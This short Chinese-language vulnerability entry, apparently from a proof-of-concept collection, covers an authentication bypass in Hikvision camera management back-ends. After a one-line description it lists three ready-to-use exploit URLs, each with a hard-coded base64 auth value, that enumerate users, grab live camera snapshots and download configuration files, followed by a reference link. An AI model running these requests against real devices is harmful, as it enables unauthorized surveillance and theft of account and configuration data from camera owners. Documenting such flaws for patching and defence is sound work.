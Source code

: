 ### 一 漏洞描述
杭州海康威视系统技术有限公司摄像头管理后台存在未授权，通过构造url可绕过登录查看监控，检索所有用户和配置文件下载。

### 二 漏洞利用
检索用户 `http://your-ip/Security/users?auth=YWRtaW46MTEK`  
监控快照 `http://your-ip/onvif-http/snapshot?auth=YWRtaW46MTEK`
下载配置 `http://your-ip/System/configurationFile?auth=YWRtaW46MTEK`


> 参考链接  
> https://www.freebuf.com/news/268245.html
